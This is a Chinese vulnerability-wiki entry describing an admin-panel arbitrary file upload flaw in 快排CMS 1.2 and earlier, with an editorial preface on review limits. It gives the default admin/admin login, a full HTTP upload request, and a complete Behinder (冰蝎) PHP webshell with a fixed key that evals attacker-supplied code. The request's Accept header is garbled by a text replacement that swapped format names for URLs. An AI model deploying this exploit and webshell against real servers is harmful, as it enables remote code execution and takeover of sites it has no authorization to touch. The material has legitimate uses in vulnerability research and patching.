





## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：adminsession; index/upload; writableexecutableuploadpath;defaultpasswordonlylab

- **结论使用边界（1）**：直接归因ThinkPHP File.php不查后缀不足，需看调用方是否设置validate规则，不是所有TP文件类漏洞。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（2）**：任意找上传点过宽，只证明index/upload示例。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **来源与引用处置（3）**：Accept把image/avif等替换成OSSURL明显全局文本替换污染；Cookie/无关XFF四头应简化。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

- **操作与副作用边界（4）**：整冰蝎载荷和固定key不是验证最小必要内容，可换非持久证据但不在本轮改仓库。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **适用与权限边界（5）**：源码Gitee源明确，缺官方修复/准确版本边界，RCE依PHP执行配置。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 快排CMS 后台任意文件上传漏洞

## 漏洞描述

快排CMS 后台管理模块存在任意文件上传漏洞，攻击者通过漏洞可以控制服务器

## 漏洞影响

```
快排 CMS <= 1.2
```

## 环境搭建

https://gitee.com/qingzhanwang/kpcms

## 漏洞复现

登录页面如下, 默认账号密码为 **admin/admin**

```plain
http://xxx.xxx.xxx.xxx/admin.php/index/login.html
```





源码中没有对上传文件的后缀检测

```plain
thinkphp/library/think/File.php
```




任意找一处文件上传点




上传抓包获取文件地址




```plain
POST /admin.php/index/upload.html?dir=image HTTP/1.1
Host: 192.168.1.108:88
Content-Length: 935
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.108:88
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryYIt9WaQZiDMrwAVm
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/avif,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/webp,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.108:88/admin.php/config/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: admin_id=IphHb2Z%2FRG9gIXGA7HpPzQ%3D%3D; menu_show=0; menu_id=menu_22; url=%2Fadmin.php%2Fconfig%2Findex.html
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

------WebKitFormBoundaryYIt9WaQZiDMrwAVm
Content-Disposition: form-data; name="localUrl"

C:\fakepath\shell.php
------WebKitFormBoundaryYIt9WaQZiDMrwAVm
Content-Disposition: form-data; name="imgFile"; filename="shell.php"
Content-Type: application/octet-stream

<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b";
	$_SESSION['k']=$key;
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>

------WebKitFormBoundaryYIt9WaQZiDMrwAVm--
```

连接冰蝎木马即可




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
